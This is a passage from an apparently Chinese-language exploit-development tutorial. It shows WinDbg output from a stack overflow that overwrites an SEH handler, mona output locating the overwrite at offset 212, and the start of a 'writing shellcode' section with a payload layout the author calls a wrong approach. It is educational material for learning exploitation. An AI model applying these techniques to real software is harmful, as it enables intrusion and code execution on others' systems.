 windbg下运行程序，出现两部分报错信息，第一部分是`fread`超出了栈底，第二部分是执行`SEH`但指令地址`31684130`无效：

```
(4e94.4b34): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0064dbb8 ebx=fffffffe ecx=00000a48 edx=00000bb7 esi=0064d170 edi=001a0000
eip=7713fc8e esp=0019fd98 ebp=0019fdbc iopl=0         nv up ei pl nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010203
ucrtbase!memcpy+0x4e:
7713fc8e f3a4            rep movs byte ptr es:[edi],byte ptr [esi]

0:000> g
(4e94.4b34): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=31684130 edx=774d8ad0 esi=00000000 edi=00000000
eip=31684130 esp=0019f768 ebp=0019f788 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
31684130 ??              ???  
```

使用`mona po`命令，确定`SEH`所在位置的偏移量为`212`

```plain
0:000> .load pykd
0:000> !py mona po 31684130

** You are running pykd.pyd v0.3.4.15. Use at your own risk **

Hold on...
[+] Command used:
!py D:\Program Files (x86)\Windbg\x86\mona.py po 31684130
Looking for 0Ah1 in pattern of 500000 bytes
 - Pattern 0Ah1 (0x31684130) found in cyclic pattern at position 212
Looking for 0Ah1 in pattern of 500000 bytes
Looking for 1hA0 in pattern of 500000 bytes
 - Pattern 1hA0 not found in cyclic pattern (uppercase)  
Looking for 0Ah1 in pattern of 500000 bytes
Looking for 1hA0 in pattern of 500000 bytes
 - Pattern 1hA0 not found in cyclic pattern (lowercase)  

[+] This mona.py action took 0:00:00.191000
```

### 编写shellcode

#### 错误思路

首先想到的一种思路是：

```
payload = nop * (212-4) + jmp_6 + jmp_esp(SEH) + shellcode 
```
